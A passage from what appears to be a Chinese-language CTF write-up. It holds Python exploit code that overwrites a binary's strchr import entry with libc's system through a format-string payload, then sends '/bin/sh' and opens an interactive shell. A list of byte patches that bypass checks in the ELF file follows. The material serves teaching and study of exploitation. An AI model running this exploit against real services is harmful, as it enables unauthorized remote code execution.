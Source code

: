 ```
system_funaddr = libc_base + offset_system
strchr_iataddr = mod_base + offset_strchr_iat

print "mod_base", hex(mod_base)
print "libc_base", hex(libc_base)
print "system_funaddr", hex(system_funaddr)
print "strchr_iataddr", hex(strchr_iataddr)

preload = "51.492137, -0.192878 :"
prelen = len(preload)                       ###22###
offset = (((system_funaddr >> 16) - prelen) << 16) + ((system_funaddr - prelen) & 0xffff)
fsb = libformatstr.FormatStr()
fsb[strchr_iataddr] = offset & 0xffffffff   ###0x7e61fa###
index = (60 + prelen + 3) / 4
payload = fsb.payload(index, prelen)
exp = preload + payload + "\n"

print "rxp:", exp
print "rxp:", exp.encode('hex')

time.sleep(50) #for debug

expsock.write(exp)
read_data(expsock, "Coordinates: ")
expsock.write("/bin/sh;\x00\n")

sh = telnetlib.Telnet()
sh.sock = sock
sh.interact()

```

0x06 构建环境
=========

* * *

本文的GDB调试环境使用了.gdbinit和pygdb.py，扩展了raw gdb的功能。 原ELF文件前面有许多坑，为了方便测试，这里绕过了这些坑，修改如下：

```
    00000E82: 85 40
    00000E83: C0 40
    00001254: E8 90
    00001255: B4 90
    00001256: 1A 90
    00001257: 00 90
    00001258: 00 90
    00001259: E8 90
    0000125A: 5A 90
    0000125B: FC 90
    0000125C: FF 90
    0000125D: FF 90
    0000125E: 85 33
    00001335: E8 90
    00001336: 91 90
    00001337: F8 90
    00001338: FF 90
    00001339: FF 90
    0000133A: 8D 90
    0000133B: 83 90
    0000133C: CB 90
    0000133D: BB 90
    0000133E: FF 90
    0000133F: FF 90
    00001340: 89 90
```